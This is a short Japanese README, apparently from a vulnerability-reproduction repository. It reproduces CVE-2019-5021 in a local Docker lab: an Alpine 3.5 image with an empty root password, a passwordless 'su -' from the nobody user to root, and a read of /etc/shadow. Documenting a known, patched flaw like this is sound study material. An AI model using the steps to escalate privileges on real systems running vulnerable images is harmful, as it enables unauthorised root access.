 # cve-2019-5021
test:alpineイメージ (v3.3 - v3.5) のrootパスワードがnullだった脆弱性。

まず`Dockerfile`からイメージをbuildする。
```
$ docker build -t cve-2019-5021:1 .
Sending build context to Docker daemon  3.072kB
Step 1/2 : FROM alpine:3.5
 ---> f80194ae2e0c
Step 2/2 : RUN apk update && apk add shadow
 ---> Running in 0bd5a51ac649
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/main/x86_64/APKINDEX.tar.gz
fetch http://dl-cdn.alpinelinux.org/alpine/v3.5/community/x86_64/APKINDEX.tar.gz
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/main]
v3.5.3-40-g389d0b359a [http://dl-cdn.alpinelinux.org/alpine/v3.5/community]
OK: 7963 distinct packages available
(1/2) Installing linux-pam (1.2.1-r0)
(2/2) Installing shadow (4.2.1-r8)
Executing busybox-1.25.1-r2.trigger
OK: 6 MiB in 13 packages
Removing intermediate container 0bd5a51ac649
 ---> b2ac47c6d945
Successfully built b2ac47c6d945
Successfully tagged cve-2019-5021:1
```

uid:65534(nobody)を指定してbuildしたイメージからコンテナを起動する。
`su -`コマンドでrootのパスワードを聞かれずにrootになれる。
```
$ docker container run --user 65534:65534 -it cve-2019-5021:1
~ $ id
uid=65534(nobody) gid=65534(nobody)
~ $ su -
c40b869c5be7:~# id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
c40b869c5be7:~# 
```

`/etc/shadow`を見てみると確かにrootのパスワードが設定されていない。
```
c40b869c5be7:~# grep root /etc/shadow
root:::0:::::

```
